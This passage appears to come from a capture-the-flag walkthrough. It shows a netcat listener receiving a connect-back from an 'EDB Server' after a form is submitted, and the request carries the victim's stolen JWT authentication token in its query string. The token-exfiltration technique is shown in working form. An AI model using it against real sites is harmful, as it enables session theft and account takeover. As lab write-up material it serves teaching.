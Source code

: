 Now that we have that, submit the form. A few seconds later, we should get a connect back from the EDB Server with the __np-auth__ token.

```console
ubuntu@ip-172-31-24-12:~$ nc -nvlp 8000
Listening on [0.0.0.0] (family 0, port 8000)
Connection from [35.196.239.128] port 8000 [tcp/*] accepted (family 2, sport 54990)
GET /?c=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkZXB0IjoiRW5naW5lZXJpbmciLCJvdSI6ImVsZiIsImV4cGlyZXMiOiIyMDE3LTA4LTE2IDEyOjAwOjQ3LjI0ODA5MyswMDowMCIsInVpZCI6ImFsYWJhc3Rlci5zbm93YmFsbCJ9.M7Z4I3CtrWt4SGwfg7mi6V9_4raZE5ehVkI9h04kr6I HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
